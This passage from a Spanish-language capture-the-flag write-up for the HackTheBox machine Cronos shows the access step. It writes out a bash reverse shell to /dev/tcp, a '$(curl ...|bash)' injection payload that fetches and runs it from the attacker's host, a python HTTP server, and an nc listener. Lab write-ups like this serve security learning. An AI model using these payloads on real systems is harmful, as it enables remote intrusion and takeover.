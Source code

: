 ![Untitled](/assets/images/Cronos/Untitled%203.png)

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.13 - - [19/Aug/2021 11:32:29] "GET / HTTP/1.1" 200 -
```

# **GANANDO ACCESO**

Nos responde, ya solo nos quedaria crearnos un archivo de esta forma:

```bash
❯ cat index.html
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.198/443 0>&1
```

Y montarnos un servidor http con python y hacer un curl hacia nuestra IP y pipearlo con bash:

`$(curl http://10.10.16.198|bash)`

`python3 -m http.server 80`

`nc -nlvp 443`

![Untitled](/assets/images/Cronos/Untitled%204.png)
